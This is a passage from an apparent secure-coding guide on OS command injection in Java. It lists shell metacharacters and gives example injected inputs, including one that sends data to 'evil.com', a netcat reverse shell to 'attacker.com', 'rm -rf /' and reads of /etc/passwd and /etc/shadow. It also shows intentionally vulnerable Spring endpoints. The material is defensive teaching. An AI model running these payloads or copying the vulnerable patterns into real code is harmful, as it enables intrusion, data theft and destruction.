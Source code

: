 ### 2. Common attack vectors

Attackers use special shell characters to break out of your intended command and inject their own. These characters act like escape hatches, allowing attackers to end your command and start their own malicious ones:

```java
// Shell metacharacters that enable command chaining
; && || | ` $() > < >> << & \n \r

// Example attacks:
"file.txt; cat /etc/passwd"          // Command chaining
"file.txt && curl evil.com/steal"    // Conditional execution  
"file.txt | mail attacker@evil.com"  // Pipe to another command
"$(cat /etc/passwd)"                 // Command substitution
"`rm -rf /`"                         // Backtick execution
```

## Vulnerable patterns

### Basic command injection

The most common mistake is concatenating user input directly into a command string. It's tempting because it's simple, but it's also catastrophically dangerous:

```java
// VULNERABLE - Direct concatenation
@PostMapping("/backup")
public String backup(@RequestParam String directory) {
    String command = "tar -czf backup.tar.gz " + directory;
    Process p = Runtime.getRuntime().exec(command);
    return "Backup created";
}
// Attack: directory = "/home/user; cat /etc/shadow > public/passwords.txt"
```

### Array-based commands (still vulnerable)

Many developers think using array syntax makes them safe from injection. Unfortunately, if you're still invoking a shell with `sh -c`, you're still vulnerable. The shell will interpret special characters regardless of how you pass them:

```java
// VULNERABLE - Even with array syntax
@GetMapping("/ping")
public String ping(@RequestParam String host) {
    String[] command = {"sh", "-c", "ping -c 4 " + host};
    Process p = Runtime.getRuntime().exec(command);
    return readOutput(p);
}
// Attack: host = "google.com; nc -e /bin/sh attacker.com 4444"
```

### ProcessBuilder vulnerabilities
